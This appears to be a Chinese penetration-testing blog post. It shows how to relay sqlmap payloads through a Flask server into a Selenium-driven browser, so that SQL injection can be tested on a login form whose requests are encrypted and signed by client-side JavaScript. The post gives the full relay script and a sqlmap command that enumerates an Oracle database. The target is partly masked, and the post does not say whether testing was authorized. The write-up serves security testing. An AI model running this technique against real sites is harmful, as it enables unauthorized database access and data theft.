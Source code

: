 ```yaml
---
draft: false
date: 2019-07-27 18:15:25
title: 通过 selenium 和 flask 中转后利用 sqlmap 进行注入
description: 渗透测试中有时候前端提交的数据会进行加密之类的操作, 有些加密的函数还不好找, 其实可以用 selenium 调用 chrome 驱动中转后进行测试。
categories:
  - Pentest
tags:
  - SQL注入
---
```


### 0x00 先说前提
昨天某个小伙伴说有个注入没法搞
![60](/img/post/Xnip2019-07-27_19-20-07.png)

前端提交登陆表单时数据包加密了, 而且有个 sign 字符串每次都不一样用于校验, 应该是用 js 加密了
![](/img/post/Xnip2019-07-27_18-40-20.png)
![](/img/post/Xnip2019-07-27_18-41-18.png)

### 0x01 找加密的 js 文件
注入的地方是获取验证码时的手机号, 刚开始想着先找到 js 加密的函数, 然后生成 sign 再组数据包发送。

就像 [记一次SQL Server报错注入](/posts/2018/recording-an-sqlserver-sql-injection-of-error-based/) 中一样, 用 selenium 或者 PhantomJS 执行 js 代码生成sign

一番查找发现了加密的 js 文件函数, 但是用的是 angular 这个前端框架, 没用过这个东西。。。。。
![80](/img/post/Xnip2019-07-27_19-06-48.png)
![80](/img/post/Xnip2019-07-27_19-12-37.png)

能看懂一般的 js 代码, 但是这个没得搞, 不懂。。。

### 0x02 数据中转
本来昨天我已经放弃了的, 结果今天上午小伙伴又找我了, 说还没有整好, 又看了一通 js, 仍然无解, 看不懂。。。

想起昨天有个大佬说用 PhantomJS + flask 这样、那样、再这样, 中转数据就可以用 sqlmap 跑了, emmmmm。。。
![20](/img/post/Xnip2019-07-27_20-01-02.png)

虽然很早以前用过 asp 的 [Cookie 注入中转](/posts/2015/injection-of-asp-in-the-cookie/?_blank) , 但是那个是软件, 一直没有搞懂原理, 现在正好趁机学下

经过各种百度, 大概明白了, 应是本地起个 server, sqlmap 就扫描这个 server, server 接收到 payload 后将 payload 加到表单中, 然后模拟提交表单

### 0x03 selenium 和 flask 进行中转
没有接触过 PhantomJS, 但是 selenium 以前用过, 可以尝试下

大概看了下, 我们需要注意动态的消息提示框, 需要处理 input 的长度
![90](/img/post/Xnip2019-07-27_20-25-39.png)

大概代码就是下面这样了:

```
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

import time
from lxml import etree
from flask import Flask
from flask import request
from selenium import webdriver
from selenium.webdriver.chrome.options import Options

# chrome_options = Options()
# chrome_options.add_argument('--headless')
# chrome = webdriver.Chrome(executable_path="/opt/chromedriver", options=chrome_options)
chrome = webdriver.Chrome(executable_path="/opt/chromedriver")
chrome.get("https://cx.xxxxxxx.cn/#dashboard")


app = Flask(__name__)

def send(payload):
    # 用两种登陆方式, 这里切换到验证码登陆方式
    chrome.find_element_by_link_text("手机登录").click()

    # 手机号长度有限制, 去除 input 的 maxlength 属性
    chrome.execute_script("document.getElementById('modile').removeAttribute('maxlength')")

    # 给 input 标签赋值
    chrome.find_element_by_id("modile").send_keys(payload)

    # 点击发送验证码
    chrome.find_element_by_id("BtnphoneNote").click()

    # 网速不好时服务器返回数据慢所以用 while
    while True:
        selector = etree.HTML(chrome.page_source)
        message = selector.xpath("//div[@class='ng-binding ng-scope']/text()")
        if message:
            time.sleep(0.5)
            # 得到返回的信息后, 关闭信息提示框, 然后清除 input 的内容便于发送下一个 payload
            chrome.find_element_by_class_name("close").click()
            chrome.find_element_by_id("modile").clear()
            break
        time.sleep(0.5)
    return "ttttt"+message[0]

@app.route('/')
def index():
    payload = request.args.get("payload")
    return send(payload)


if __name__ == "__main__":
    app.run()
```

### 0x04 sqlmap 测试效果
* 启动 flask 服务

```
[16:09 reber@wyb at ~/Pentest]
➜  python3 tmp.py
* Serving Flask app "tmp" (lazy loading)
* Environment: production
WARNING: Do not use the development server in a production environment.
Use a production WSGI server instead.
* Debug mode: off
* Running on http://127.0.0.1:5000/ (Press CTRL+C to quit)
```

* 使用 sqlmap 尝试扫描

```
sqlmap --risk 2 --level 3 --tamper space2comment --batch --random-agent -u "http://127.0.0.1:5000/?payload=13188888888*" --dbms="Oracle" --technique=E --current-db
```

* flask 接收到了payload

![](/img/post/Xnip2019-07-27_20-42-19.png)

* sqlmap 执行结果

![](/img/post/Xnip2019-07-27_20-40-16.png)



#### Reference(侵删)：
* [sqlmap 代理绕过参数 hash 验证](https://www.0dayhack.com/post-677.html?_blank)